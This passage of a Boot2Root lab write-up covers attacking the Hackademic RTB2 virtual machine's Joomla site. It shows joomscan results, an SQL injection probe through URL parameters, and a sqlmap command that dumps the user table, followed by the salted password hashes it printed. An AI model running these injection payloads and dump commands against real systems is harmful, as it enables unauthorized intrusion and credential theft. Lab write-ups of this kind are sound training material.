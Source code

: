 ```

// Output truncated

There are 4 vulnerable points in 38 found entries!

~[*] Time Taken: 20 sec
~[*] Send bugs, suggestions, contributions to joomscan@yehg.net
```

There is also `robots.txt`, but its entries all mislead you to dead ends. The most interesting vulnerability is #19, which is a File Upload vulnerability. This means that if we can somehow exploit this, we can get a shell! To make things even better, there is a metasploit module for it! Ahh, whenever I do Boot2Root VMs, it's always a luxury to be able to use available metasploit modules for it. But it seems like I was ahead of myself as when I tried it, it didn't work. Not to be discouraged, I went on to look for the typical point of entries like SQL injection. After some testing, I was able to discern a SQL injection vector with `http://192.168.1.100:666/index.php?Itemid=' + '2` as it gave me the same result as `http://192.168.1.100:666/index.php?Itemid=2`.

Some testing revealed that putting a quote in the letter parameter shows an error (`http://192.168.1.100:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...'&Itemid=3`)

![](hackademic.rtb2_3.png)

Let's turn to my trusty `sqlmap`:

```
root@kali:~# sqlmap -u "http://192.168.1.100:666/index.php?option=com_abc&letter=A" -D joomla -T jos_users -C username,password --dump
+---------------+-------------------------------------------------------------------+
| username      | password                                                          |
+---------------+-------------------------------------------------------------------+
| Administrator | 08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl |
| JSmith        | 992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF |
| BTallor       | abe1ae513c16f2a021329cc109071705:FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy |
+---------------+-------------------------------------------------------------------+
```
